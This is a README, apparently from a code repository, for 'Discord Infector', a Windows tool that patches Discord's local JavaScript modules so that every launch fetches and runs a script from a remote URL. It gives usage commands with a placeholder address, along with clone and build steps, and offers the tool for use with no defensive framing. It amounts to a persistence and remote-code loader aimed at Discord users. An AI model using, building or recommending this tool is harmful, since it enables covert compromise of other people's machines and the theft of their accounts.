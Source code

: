 #Discord Infector 

This tool allows you to modify some of Discord's data files on Windows to run arbitrary code every time Discord is launched.

##Usage 

You can download the release binary from releases and use it with `.\DiscordInfector.exe https://example.org/examplescript.js`
This will attempt to patch one of your Discord AppData Javascript modules to execute a file that will attempt to grab the script at the specified address and execute it.


##Building 

To build the tool yourself, you will need the following installed:
- NodeJS 10+
- NPM or an NPM compatible package manager
- pkg

pkg can be installed with `npm install -g pkg`.

The steps to build the tool are as followed.
1. `git clone https://gitlab.com/NickCopi/discord-infector.git`
2. `cd discord-infector`
3. `npm install`
4. `npm run build`

If you would like to run it without building it you can run `node index.js https://example.org/examplescript.js`.
